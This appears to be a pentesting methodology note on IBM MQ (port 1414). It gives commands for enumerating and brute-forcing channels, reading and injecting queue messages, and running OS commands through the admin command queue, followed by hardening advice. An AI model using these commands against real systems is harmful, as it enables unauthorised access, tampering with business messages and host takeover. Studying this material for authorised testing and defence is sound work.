

# 89 - IBM MQ (Port 1414) Pentesting

## 1. Executive Summary

IBM MQ (formerly WebSphere MQ) is enterprise message-oriented middleware on default **TCP 1414** (REST API on 9443, Prometheus metrics on 9157). It's deep in banking/enterprise backends. Port 1414 isn't just for moving messages — it can **manipulate queues/channels and control the queue manager instance** itself. The common weakness: **channels with no/weak authentication** (notably `SYSTEM.*` admin channels), letting an attacker connect, enumerate queues/channels, read & inject messages, and in some configs reach **command execution** via admin command queues. **punch-q** (pymqi) is the go-to tool.

## 2. Protocol Overview & Architecture

Clients connect to a **queue manager** over a **channel** (e.g. `SYSTEM.DEF.SVRCONN`, `SYSTEM.ADMIN.SVRCONN`). Channel security relies on MCAUSER mapping + optional TLS/auth; misconfigured channels map connections to a privileged user (even `mqm`). Through the **command server** (`SYSTEM.ADMIN.COMMAND.QUEUE`) you can run PCF admin commands; some MQ setups allow defining a service/process that executes OS commands → RCE. Messages on app queues frequently carry sensitive business data.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 1414,9443,9157 <IP>
pip install pymqi
# punch-q (Docker or local) — discover channels/queues
punch-q -H <IP> -p 1414 dump-config
punch-q -H <IP> -p 1414 channels       # brute/enumerate channel names
```

## 4. Exploitation Deep Dive

### 4.1 Channel Discovery & Privilege Mapping
Enumerate channels (default `SYSTEM.*` names) and test which map to a privileged MCAUSER (no auth). An admin-mapped SVRCONN channel = keys to the queue manager.

### 4.2 Queue Enumeration & Message R/W
```bash
punch-q -H <IP> -c <CHANNEL> queues          # list queues
punch-q -H <IP> -c <CHANNEL> messages dump   # read messages (business data/creds)
punch-q -H <IP> -c <CHANNEL> messages push   # inject messages
```

### 4.3 Command Execution
On permissive instances, define an MQ **service/process** or use the command queue to execute OS commands:
```bash
punch-q -H <IP> -c <CHANNEL> command execute -c 'id'   # via SYSTEM.ADMIN.COMMAND.QUEUE
```
Runs as the MQ service account → host foothold.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Read/inject business-critical messages (finance/transactions).
- RCE as the MQ account → host + pivot across the messaging fabric.
- Harvest creds from message payloads/configs.

## 7. Defense & Hardening
1. Set non-privileged MCAUSER on channels; **require CHLAUTH + TLS + auth** (connauth) on all SVRCONN channels; lock down `SYSTEM.*`.
2. Disable/restrict the command server and service definitions; least-privilege MQ account.
3. Firewall 1414/9443; patch MQ; monitor channel connections and command-queue use.

## 8. Chaining Opportunities
- Message payloads → DB/app creds → cross-service reuse.
- RCE → **[[08 - Linux Privilege Escalation]]**.
- Broker siblings: **[[54 - AMQP (Ports 5671-5672) Pentesting]]**, **[[56 - MQTT (Port 1883) Pentesting]]**.

## 9. Related Notes
- [[90 - Cisco Smart Install (Port 4786) Pentesting]]

## 10. Tools
`punch-q`, `pymqi`, IBM MQ client libs, `nmap`.
